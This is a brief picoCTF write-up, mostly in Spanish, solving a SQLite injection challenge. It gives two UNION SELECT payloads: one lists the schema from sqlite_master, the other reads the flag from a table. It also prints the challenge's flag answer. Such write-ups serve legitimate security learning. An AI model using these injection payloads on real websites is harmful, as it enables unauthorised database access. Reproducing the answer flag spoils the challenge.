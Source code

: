 Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:57949/).
Hints:
- SQLiLite
# Solucion
Entramos con inyeccion de sql a la base de datos del sitio web y usando # SQLite Injection vamos entrando a las tablas hasta encontrar el archivo .txt donde esta ubicada la bandera, el comando que funciono es:  ' UNION SELECT name, sql, null from sqlite_master;-- 
Y despues usando el comando para abrir el archivo: ' UNION SELECT flag, null, null from more_table;-- ahora si aparece la bandera:

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
# Referencias
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

